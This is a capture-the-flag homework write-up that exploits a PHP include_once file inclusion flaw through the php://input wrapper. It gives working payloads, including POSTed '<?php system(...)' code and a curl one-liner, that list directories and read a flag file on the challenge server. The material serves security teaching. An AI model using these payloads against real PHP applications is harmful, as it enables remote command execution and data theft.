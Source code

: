# Homework 1-3 LabyrinF in Isolation [100 points] (29 solves)
Randomly input something in the text box and press "Load maze", we can find that the url "http://chal.firebird.sh:35004" become "http://chal.firebird.sh:35004/index.php?load=hello". 
Two things need to notice from this change is that, the `.php` and the `?load=`.

Also from the page:
```
Warning:  include_once(hello): failed to open stream: No such file or directory in /var/www/html/index.php on line 35
Warning:  include_once(): Failed opening 'hello' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 35
```
Then, we can search "include_once() vulnerability" and "php pseudo-protocol", to easily get the sense of solving this chal.

By using the tool Postman, add `php://input` after the `?load=`, switch to post method and put `<?php system("ls ../../../");?>` in the body. 
![image](https://github.com/user-attachments/assets/ab839975-26e7-443c-8efe-fb313e0a5e76)

We can see a file called "flag-a410adb35ec243539173d0c03f4f755b", and use the `cat` command with `<?php system("cat ../../../flag-a410adb35ec243539173d0c03f4f755b");?>`to view the flag in the file.

---
Alternatively:
```bash
curl -s -X POST "http://chal.firebird.sh:35004/index.php?load=php://input" \
     -d '<?php system("cat ../../../flag-a410adb35ec243539173d0c03f4f755b");?>' \
     -H 'Content-Type: application/x-www-form-urlencoded' | grep -oP "flag{.*}"
```